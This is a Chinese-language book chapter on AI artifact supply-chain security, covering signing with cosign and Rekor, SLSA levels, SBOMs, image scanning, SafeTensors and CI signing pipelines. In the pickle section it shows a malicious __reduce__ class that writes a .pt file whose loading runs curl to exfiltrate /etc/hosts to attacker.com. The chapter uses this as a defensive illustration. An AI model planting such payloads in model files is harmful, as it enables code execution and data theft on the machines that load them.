







# 第 12d 章 · 制品供应链与签名

> 信任不能靠"我从可信源下载"——那只是意图声明。AI 制品供应链需要的是密码学证据：谁构建了这个产物、用什么输入、在什么环境、产物指纹是否改变过。

> **关联章节**：本章与 [第12章](./12-artifacts-and-checkpoints.md)（制品生命周期）、[第12a章](./12a-model-registry.md)（模型注册）、[第12b章](./12b-checkpoint-engineering.md)（Checkpoint 工程）以及 [第23章](../part7-reliability-security/23-security-isolation-and-governance.md)（安全治理概念）直接相连。第23章已介绍 cosign/SLSA/Trivy 概念，本章是其工程化深挖。

---

## 12d.1 第一性原理拆解 + 学习大纲

### 拆 — 不可化简的问题

剥离 cosign、SLSA、in-toto、Rekor、Syft、Trivy、SafeTensors、SBOM、OPA Gatekeeper、Kyverno 这些工具名字之后，本章要面对的不可化简问题只有一个：**模型权重和容器镜像都是可执行 artifact，攻击者可以在任意环节注入恶意内容，而信任不能靠"我从可信源下载"来保证，必须靠密码学证据。**

具体说，AI 制品供应链比传统软件供应链更难防御，因为它同时包含三类可执行 artifact：第一，容器镜像（Dockerfile + 依赖 + 系统库），每一层都可能包含恶意代码；第二，Python 依赖（PyPI 包），可被同名包攻击或依赖混淆；第三，模型权重（`.pt`、`.bin`、`.ckpt`、`.safetensors`），其中 pickle 格式权重可在加载时执行任意 Python 代码，即使文件名看起来正确也无法保证内容安全。

传统的信任模型是"来自可信仓库就可信"，但这个假设在以下情况全部崩溃：可信仓库的账号被盗（CI/CD 凭证泄漏）；构建环境被注入（build-time 供应链攻击）；模型权重在中转存储时被替换（MitM 或内部攻击者）；tokenizer 配置被篡改（tokenizer 后门，不改权重只改词表映射）；依赖库在语义版本范围内被劫持（dependency confusion）。

问题的根本在于：部署系统在运行时只能看到一个 blob（二进制大文件），而无法从 blob 自身判断它是在什么环境、用什么源码、由谁构建的、中途是否被修改过。如果不引入外部的密码学机制，任何"我信任这个来源"的陈述都只是社会性承诺而非可验证事实。

这就是为什么供应链安全需要三样东西共同运作：**签名**（证明产物是谁签的、签名时刻的 digest 是什么）、**attestation / provenance**（证明产物是如何构建的——用什么源码、哪个构建系统、哪些输入、什么命令行）、**策略执行**（在部署时自动验证签名和 attestation，拒绝不满足条件的产物进入生产）。三者缺一，另外两者单独都不足够：有签名没有 attestation，攻击者可以用受信身份签名一个不可溯源的构建产物；有 attestation 没有策略执行，attestation 只是辅助材料而非门禁；有策略执行但没有签名，策略只能检查配置字段，绕过成本很低。

### 推 — 从这个问题如何推导出每个机制

从"需要证明产物 digest 在某时刻由某身份签署"出发，必然推出**签名工具**。GPG 是最早的工具，但密钥分发和吊销复杂；Notary 针对容器镜像设计；cosign（Sigstore 项目的核心工具）引入了 OIDC 绑定身份和透明日志，使签名过程无需长期私钥。

从"需要防止签名本身被悄悄撤换或伪造历史记录"出发，必然推出**透明日志（Rekor）**。Rekor 是一个 append-only 的公共签名日志，任何提交到 Rekor 的签名都会被包含进 Merkle Tree，链上可验证，不可被篡改。这使得攻击者无法在不留痕迹的情况下伪造签名时间戳。

从"签名只证明'谁签了'，不证明'怎么构建的'"出发，必然推出 **in-toto 和 provenance attestation**。in-toto 框架定义了 supply chain layout（声明每个构建步骤的期望）和 link（每一步的实际输入、命令、输出摘要）。SLSA（Supply chain Levels for Software Artifacts）是构建在这套思想上的等级框架，从 L1（基本 provenance）到 L4（hermetic、隔离、双向验证的构建环境）逐步收窄攻击面。

从"要知道产物里有什么"出发，必然推出 **SBOM（Software Bill of Materials）**。SBOM 列出产物所包含的所有组件（包名、版本、hash、许可证），是漏洞扫描的输入也是合规审计的材料。CycloneDX 和 SPDX 是两个主流格式，syft 是常用的 SBOM 生成工具。

从"SBOM 告诉你有什么组件，但不告诉你那些组件有没有已知漏洞"出发，必然推出**镜像扫描（Trivy、Grype、Snyk）**。扫描工具把 SBOM 中的组件对照 CVE 数据库比对，输出漏洞报告。扫描是必要的但不充分的——它只能发现**已知**漏洞，不能发现新型或隐藏的恶意代码。

从"模型权重是特殊的可执行 artifact"出发，必然推出**模型安全格式和权重签名**。pickle 格式的根本问题是它的反序列化过程是图灵完备的——加载时可以执行任意 Python 代码。SafeTensors 格式只描述张量数据，没有可执行逻辑，是更安全的默认格式。但格式本身不能证明来源，因此需要对权重文件做 cosign blob 签名，并记录来源（训练 job id、数据集版本、代码 commit）到 attestation。

从"所有这些签名和 attestation 最终必须在部署时被验证"出发，必然推出**准入控制（admission control）**。Kubernetes admission webhook 可以在 Pod 创建时拦截请求，调用策略引擎（Kyverno 或 OPA Gatekeeper）验证镜像签名，拒绝不满足策略的部署。Model Registry 的发布流水线可以在"推送到生产 registry"之前验证权重签名。

最终，所有这些机制串联成一条**端到端 attestation chain**：源码提交 → CI 构建 → SBOM 生成 → 漏洞扫描 → 签名 → provenance → 推送 → 准入验证 → 部署。每个节点产生的证据被密码学连接起来，形成完整的"可验证意图链"。

### 绘 — 因果链路



### 导 — 读完本章你应该能回答

1. 为什么"从官方 HuggingFace 下载"不足以证明模型权重安全？需要什么额外机制？
2. cosign keyless 签名的身份来自哪里？它如何避免长期私钥管理的问题？
3. SLSA L1 和 L3 的核心差异是什么？一个 AI 基础设施团队应优先追求哪个等级？
4. SBOM 和漏洞扫描之间是什么关系？如果只有扫描没有 SBOM，缺失什么能力？
5. 为什么 pickle 格式的模型权重是安全风险？SafeTensors 解决了哪一层，没解决哪一层？
6. 如何在 Kubernetes admission webhook 里强制要求镜像必须有 cosign 签名？
7. 一个 AI 制品发布流水线的 attestation chain 应该包含哪些节点，各节点证明什么？

---

## 12d.2 AI 制品供应链威胁模型

AI 制品供应链的攻击面比普通软件供应链更宽，原因在于：模型权重本身是可执行的（通过 pickle 反序列化），tokenizer 配置可以改变模型行为，训练数据影响模型输出——而这些都不是源码，传统的代码审计无法覆盖。

### 12d.2.1 威胁分类

| 威胁类型 | 具体手段 | 影响范围 | 检测难度 |
|---|---|---|---|
| 模型权重投毒 | 在权重文件中嵌入 pickle 可执行代码 | 代码执行 / 数据外泄 | 高：不解析执行不可见 |
| Tokenizer 后门 | 修改词表映射或特殊 token，使特定输入触发特定输出 | 模型行为篡改 | 极高：需要专项测试集 |
| 容器镜像植入 | 在镜像层注入恶意二进制或脚本 | 训练/推理环境控制 | 中：Trivy 可发现已知恶意 |
| 依赖库劫持 | PyPI 同名包、依赖混淆、typosquatting | 训练/推理代码执行 | 中：锁文件可降低风险 |
| CI/CD 凭证泄漏 | 窃取 GitHub Actions secret、registry token | 可上传恶意构建产物 | 低（初始），高（利用后） |
| 训练数据投毒 | 在训练集注入恶意样本（后门攻击） | 模型在特定输入下行为异常 | 极高：需要专项安全评测 |
| Build-time 注入 | 攻击构建机器或构建缓存 | 产物与源码不一致 | 高：需要 hermetic build |
| Registry 中转替换 | 在镜像推送到私有 registry 中间替换 | 部署错误产物 | 中：摘要验证可防 |

### 12d.2.2 攻击向量地图



> **关键洞察**：攻击者不需要攻击所有环节，只需要找到一个没有密码学验证的环节。如果部署时只检查 tag 而不验证 digest，攻击者可以在 registry 层替换镜像而不改变 tag。

---

## 12d.3 签名工具与透明日志

### 12d.3.1 主流签名工具对比

> **版本口径（2026-05）**：Sigstore/cosign、Rekor、SLSA、GitHub attestation、Kyverno、OPA Gatekeeper、Trivy 和 HuggingFace Hub 的能力会随版本变化。本文示例用于说明工程机制，生产落地前必须记录工具版本、策略版本、验证命令和失败处理策略。

| 工具 | 设计目标 | 密钥管理 | 透明日志 | AI 制品适用性 |
|---|---|---|---|---|
| GPG | 通用文件/代码签名 | 长期私钥，Web of Trust | 无 | 低：密钥分发复杂，无自动化集成 |
| Notary v2 | OCI 容器镜像签名 | 长期私钥 / KMS | 可选 | 中：镜像签名好，权重文件支持有限 |
| cosign (Sigstore) | OCI 镜像 + 任意 blob | Keyless / KMS / 长期密钥 | Rekor（默认） | 高：支持镜像和权重，OIDC 无私钥 |
| in-toto | 供应链步骤 attestation | 各步骤功能密钥 | 可配合 Rekor | 高：最适合多步骤构建流程 |

### 12d.3.2 cosign 工作原理：Keyless 签名

Sigstore 的 keyless 签名是对"私钥长期管理"问题的根本性解答。其核心思想是：**用 OIDC 身份（GitHub Actions job、Google 账号、工作负载 SA）换取一张短时 x.509 证书，用证书私钥完成签名，签名和证书一起提交到 Rekor 透明日志**。签名验证时，验证者不需要持有签名者的公钥，只需从 Rekor 日志中检索对应证书并验证 OIDC 声明（如 `job_workflow_ref` 是否为受信任的 GitHub Actions workflow）。



> **工程边界**：Keyless 签名需要 Rekor 公共实例可访问。企业内网部署可以运行私有 Rekor 实例，但需额外维护。Keyless 签名的安全性依赖 OIDC provider（如 GitHub）的身份可信性——如果 OIDC provider 被攻击，签名身份也可能被伪造。

### 12d.3.3 Rekor 透明日志：Public vs Private

| 维度 | Public Rekor | Private Rekor |
|---|---|---|
| 运营方 | Sigstore 社区（Google/Red Hat/Purdue） | 自行运营 |
| 可用性 | SLA 不可控 | 自主控制 |
| 监控面 | 全球可见（供应链监控工具可检测） | 仅内部可见 |
| 隐私 | 签名元数据公开（含 OIDC claims） | 敏感元数据不外泄 |
| 适用场景 | 开源项目、公开发布的镜像 | 企业私有模型、内部构建 |
| 运维成本 | 零 | 中（需维护 Trillian + Rekor 服务） |

> **AI 场景建议**：对外发布的推理镜像和开源模型使用 Public Rekor；内部训练镜像、私有模型权重使用 Private Rekor，避免 OIDC claims 中的内部 CI/CD 信息泄露。

---

## 12d.4 SLSA 等级框架

SLSA（Supply chain Levels for Software Artifacts，发音"salsa"）是 Google 主导、OpenSSF 标准化的供应链安全框架，把构建系统的可信度分为 4 个等级。

### 12d.4.1 各等级要求与实施代价

| 等级 | 要求摘要 | AI 制品场景 | 实施代价 | 防御的攻击 |
|---|---|---|---|---|
| **L1** | 基本 provenance：记录构建过程并产生文档 | CI 生成 build log + artifact hash | 低（~1天） | 无意篡改、事后追溯 |
| **L2** | 托管构建服务：provenance 由构建服务生成（不可被构建脚本修改） | GitHub Actions attestation、Google Cloud Build | 低-中（~3天） | 恶意构建脚本伪造 provenance |
| **L3** | 强化来源：构建隔离、来源可验证、防止构建脚本注入 | 隔离构建环境、参数化构建、禁止网络出站 | 中（~2周） | 构建环境被攻击者控制 |
| **L4** | Hermetic build：构建完全封闭、双向验证、reproducible build | 完全离线构建、bit-for-bit 可复现 | 高（数月+） | 长期 APT 攻击、构建基础设施妥协 |

### 12d.4.2 AI 基础设施团队的 SLSA 路径



> **工程建议**：大多数 AI 基础设施团队应以 SLSA L2 为目标（使用 GitHub Actions `attest` 动作或 Google Cloud Build 的内置 provenance），并在高风险制品（对外发布的推理镜像、公开模型）上推进到 L3。L4 的 hermetic build 对 ML 工作负载（需要 CUDA、大量 Python 依赖）实施成本极高，且收益边际递减。

---

## 12d.5 SBOM：软件物料清单

SBOM（Software Bill of Materials）是制品的"成分表"，列出产物所包含的所有组件、版本、依赖关系和许可证。

### 12d.5.1 主流 SBOM 格式对比

| 格式 | 维护方 | 主要用途 | 工具支持 | AI 场景适用性 |
|---|---|---|---|---|
| **CycloneDX** | OWASP | 安全分析、漏洞管理、VEX | syft、cdxgen、Trivy | 高：支持 ML 模型组件扩展 |
| **SPDX** | Linux Foundation | 许可证合规、法律审计 | syft、FOSSology | 高：开源许可证合规场景 |
| **SWID** | ISO/IEC | 软件资产管理 | 较少 | 低：AI 场景不常用 |

### 12d.5.2 用 syft 生成 SBOM

```bash
# 生成容器镜像的 SBOM（CycloneDX 格式）
syft ghcr.io/myorg/inference-server:v1.2.3 -o cyclonedx-json > sbom.json

# 生成本地目录的 SBOM（包含 Python 依赖）
syft dir:/path/to/model-package -o spdx-json > model-sbom.json

# 将 SBOM 作为 OCI attestation 附加到镜像
cosign attest \
  --predicate sbom.json \
  --type cyclonedx \
  ghcr.io/myorg/inference-server:v1.2.3

# 验证 SBOM attestation
cosign verify-attestation \
  --type cyclonedx \
  --certificate-identity "https://github.com/myorg/repo/.github/workflows/build.yml@refs/heads/main" \
  --certificate-oidc-issuer "https://token.actions.githubusercontent.com" \
  ghcr.io/myorg/inference-server:v1.2.3
```

> **工程边界**：SBOM 描述的是构建时的组件快照，不覆盖运行时动态加载的内容（如 Python `importlib` 运行时加载的插件）。对于包含多个 Python 虚拟环境的训练镜像，需要对每个环境分别生成 SBOM 并合并。

---

## 12d.6 镜像扫描：Trivy、Grype 与 Snyk

### 12d.6.1 扫描工具对比

| 工具 | 扫描范围 | 数据源 | CI 集成 | 误报率 | AI 特有支持 |
|---|---|---|---|---|---|
| **Trivy** | OS 包、Python、Go、Java、Dockerfile、IaC | GitHub Advisory、NVD、OSV | 好（官方 Actions） | 低 | 有限（无 ML 依赖专项） |
| **Grype** | OS 包、Python、Go、Java | NVD、GHSA、OSV | 好（官方 Actions） | 低 | 无 |
| **Snyk** | OS 包、Python、代码静态分析 | Snyk Intel（更新快） | 好（商业） | 中 | 无 |
| **pip-audit** | Python 包 | PyPA Advisory DB | 好 | 低 | 无 |

### 12d.6.2 SBOM 与扫描的关系

```
SBOM（成分表）→ 扫描工具（CVE 匹配）→ 漏洞报告 → 策略决策（阻断/豁免/接受）
```

扫描工具可以：
- 直接扫描镜像（自动解析 SBOM）
- 接受预生成的 SBOM 作为输入（速度更快，SBOM 可缓存）
- 输出 VEX（Vulnerability Exploitability eXchange）声明补充 SBOM

> **关键误区**：漏洞扫描只发现**已知**漏洞（CVE 数据库中的），不能发现：新型恶意代码注入、logic bomb、训练数据投毒、tokenizer 后门。扫描通过不等于制品安全，只是通过了 CVE 已知漏洞基线检查。

---

## 12d.7 模型权重特有威胁与防护

### 12d.7.1 Pickle 反序列化攻击

pickle 是 Python 内置的对象序列化格式，其 `__reduce__` 机制允许被序列化的对象在反序列化时执行任意 Python 代码。这个设计目标是"恢复对象"，不是"安全数据传输"。

```python
# 恶意 pickle 的简化原理（仅作说明）
import pickle, os

class MaliciousPayload:
    def __reduce__(self):
        return (os.system, ('curl http://attacker.com/exfil?data=$(cat /etc/hosts)',))

# 保存成看似合法的 .pt 文件
payload = MaliciousPayload()
with open('model.pt', 'wb') as f:
    pickle.dump({'model': payload, 'config': {}}, f)

# 受害者执行 torch.load('model.pt') 时触发 os.system 调用
```

> **风险量化**：一个 70B 权重文件（~140 GB）完整传输需要数小时，攻击者只需在文件头部几 KB 注入 pickle payload，其余权重数据可以完全正常。传统的文件大小检查和格式验证无法发现此类攻击。

### 12d.7.2 SafeTensors：更安全的默认格式

SafeTensors 由 HuggingFace 开发，格式规范：固定头部（JSON metadata）+ 连续张量数据，**完全没有可执行语义**。

| 维度 | PyTorch .pt / .bin | SafeTensors .safetensors |
|---|---|---|
| 序列化机制 | Python pickle | 自定义二进制格式（JSON header + raw tensor bytes） |
| 可执行语义 | 是（`__reduce__` 可执行任意代码） | 否（无函数调用，只有类型+形状+数据描述） |
| 加载速度 | 中 | 快（mmap 友好，零拷贝） |
| 跨语言支持 | 仅 Python/PyTorch | Python、Rust、C++、JavaScript |
| 完整性校验 | 无内置 | 无内置（需外部签名） |
| 训练恢复 | 完整（含 optimizer state） | 仅权重（不含 optimizer state） |
| 平台建议 | 训练内部 checkpoint | 模型发布、推理部署默认格式 |

> **工程边界**：SafeTensors 解决"加载时执行任意代码"这一层风险，但不解决：（1）权重本身是否包含后门行为（需要专项安全评测）；（2）权重是否被篡改（需要签名和 digest 验证）；（3）模型是否来自可信训练过程（需要 provenance attestation）。

### 12d.7.3 模型权重签名实践

cosign 支持对任意 blob（文件）签名，不限于容器镜像：

```bash
# 对权重文件生成 SHA-256 digest
DIGEST=$(sha256sum model.safetensors | awk '{print $1}')
echo "sha256:$DIGEST" > model.safetensors.digest

# 使用 cosign 对 blob 签名（keyless，使用 OIDC 身份）
cosign sign-blob \
  --bundle model.safetensors.bundle \
  model.safetensors

# 验证签名
cosign verify-blob \
  --bundle model.safetensors.bundle \
  --certificate-identity "https://github.com/myorg/train-pipeline/.github/workflows/train.yml@refs/heads/main" \
  --certificate-oidc-issuer "https://token.actions.githubusercontent.com" \
  model.safetensors
```

### 12d.7.4 HuggingFace Hub 签名实践

HuggingFace Hub 从 2024 年开始支持 cosign 签名验证。可以在 Hub 仓库的 `README.md` 或 `model_card.json` 中记录签名信息，并在下载后验证：

```bash
# 下载模型后验证签名
huggingface-cli download myorg/mymodel --local-dir ./mymodel

# 验证权重 bundle（假设 bundle 随模型发布）
cosign verify-blob \
  --bundle ./mymodel/model.safetensors.bundle \
  --certificate-identity "https://github.com/myorg/train/.github/workflows/publish.yml@refs/tags/v1.0.0" \
  --certificate-oidc-issuer "https://token.actions.githubusercontent.com" \
  ./mymodel/model.safetensors
```

---

## 12d.8 私钥与凭证管理

签名系统最终都依赖私钥，私钥管理的失败直接导致签名体系崩溃。

### 12d.8.1 密钥管理选项对比

| 方案 | 安全等级 | 运维成本 | 适用场景 |
|---|---|---|---|
| **文件私钥**（.pem 文件） | 低（文件泄露即密钥泄露） | 零 | 开发测试，绝不用于生产 |
| **KMS（Cloud KMS / AWS KMS）** | 高（密钥不出 KMS） | 低（云托管） | 大多数企业首选 |
| **HSM（硬件安全模块）** | 极高（密钥在物理安全芯片内） | 高 | 高合规要求（金融、政府） |
| **Keyless / OIDC（Sigstore）** | 高（无长期私钥） | 低（需要 OIDC provider） | CI/CD 自动化签名首选 |

### 12d.8.2 零信任凭证发行原则

> **核心原则**：凭证（签名密钥、registry token、模型下载 token）必须：（1）按身份绑定（不共享）；（2）短生命周期（TTL < 1小时 for 自动化，< 24小时 for 人工）；（3）最小权限（只够完成当前任务）；（4）可撤销（发现泄露后能立即吊销）；（5）审计可追溯（谁何时用了什么凭证做了什么操作）。

```bash
# GitHub Actions：使用 OIDC token 动态获取临时 AWS 凭证（无需存储 AWS secret）
- name: Configure AWS credentials
  uses: aws-actions/configure-aws-credentials@v4
  with:
    role-to-assume: arn:aws:iam::123456789012:role/model-publisher
    role-session-name: ci-publish-${{ github.run_id }}
    aws-region: us-east-1
    # OIDC token 自动获取，TTL 1小时
```

---

## 12d.9 CI/CD 集成：GitHub Actions + Sigstore

### 12d.9.1 完整 GitHub Actions 签名流水线

```yaml
name: Build, Sign, and Push
on:
  push:
    tags: ['v*']

permissions:
  contents: read
  id-token: write     # 允许获取 OIDC token（keyless 签名必须）
  packages: write     # 推送到 GHCR
  attestations: write # 写入 GitHub attestation

jobs:
  build-sign-push:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      # 构建镜像
      - name: Build image
        run: |
          docker build -t ghcr.io/${{ github.repository }}:${{ github.ref_name }} .
          docker save ghcr.io/${{ github.repository }}:${{ github.ref_name }} | sha256sum > image.digest

      # 生成 SBOM
      - name: Generate SBOM
        uses: anchore/sbom-action@v0
        with:
          image: ghcr.io/${{ github.repository }}:${{ github.ref_name }}
          format: cyclonedx-json
          output-file: sbom.json

      # Trivy 漏洞扫描
      - name: Run Trivy
        uses: aquasecurity/trivy-action@master
        with:
          image-ref: ghcr.io/${{ github.repository }}:${{ github.ref_name }}
          exit-code: 1           # Critical 漏洞阻断发布
          severity: CRITICAL,HIGH

      # 推送镜像
      - name: Push image
        run: docker push ghcr.io/${{ github.repository }}:${{ github.ref_name }}

      # cosign 签名（keyless，使用 GitHub OIDC）
      - name: Install cosign
        uses: sigstore/cosign-installer@v3

      - name: Sign image
        run: |
          cosign sign --yes \
            ghcr.io/${{ github.repository }}:${{ github.ref_name }}

      # 附加 SBOM attestation
      - name: Attest SBOM
        run: |
          cosign attest --yes \
            --predicate sbom.json \
            --type cyclonedx \
            ghcr.io/${{ github.repository }}:${{ github.ref_name }}

      # GitHub 原生 attestation（SLSA provenance）
      - name: Generate provenance attestation
        uses: actions/attest-build-provenance@v1
        with:
          subject-name: ghcr.io/${{ github.repository }}
          subject-digest: ${{ steps.push.outputs.digest }}
```

### 12d.9.2 模型权重发布流水线

```yaml
  publish-model:
    runs-on: ubuntu-latest
    steps:
      - name: Convert to SafeTensors
        run: |
          python convert_to_safetensors.py \
            --input checkpoints/final/model.pt \
            --output release/model.safetensors

      - name: Compute digest
        run: |
          sha256sum release/model.safetensors > release/model.safetensors.sha256

      - name: Sign model blob
        run: |
          cosign sign-blob --yes \
            --bundle release/model.safetensors.bundle \
            release/model.safetensors

      - name: Create provenance attestation
        run: |
          cat > model-provenance.json << EOF
          {
            "buildType": "https://example.com/ai-training-v1",
            "builder": {"id": "https://github.com/${{ github.repository }}/actions/runs/${{ github.run_id }}"},
            "invocation": {
              "configSource": {"uri": "${{ github.server_url }}/${{ github.repository }}", "digest": {"sha1": "${{ github.sha }}"}},
              "parameters": {"dataset_version": "$DATASET_VERSION", "training_config": "$TRAINING_CONFIG"}
            },
            "metadata": {
              "buildStartedOn": "$(date -u +%Y-%m-%dT%H:%M:%SZ)",
              "reproducible": false
            }
          }
          EOF
          cosign attest-blob --yes \
            --predicate model-provenance.json \
            --type slsaprovenance02 \
            --bundle release/model.safetensors.provenance.bundle \
            release/model.safetensors

      - name: Upload to Model Registry
        run: |
          # 上传权重、签名 bundle、provenance bundle 作为整体
          aws s3 sync release/ s3://model-registry/models/mymodel/v1.0.0/
```

---

## 12d.10 Attestation Chain：全链路证据

### 12d.10.1 Attestation Chain 结构

Attestation chain 把从源码到部署的每个节点串联成密码学可验证的证据链：



### 12d.10.2 Attestation 内容字段说明

| 字段 | 位置 | 证明内容 |
|---|---|---|
| `builder.id` | SLSA provenance | 构建系统身份（如 GitHub Actions workflow URL） |
| `invocation.configSource.uri` | SLSA provenance | 构建配置来源（仓库 URL） |
| `invocation.configSource.digest` | SLSA provenance | 源码 commit hash |
| `invocation.parameters` | SLSA provenance | 构建参数（无 secret） |
| `metadata.buildStartedOn/completedOn` | SLSA provenance | 构建时间窗口 |
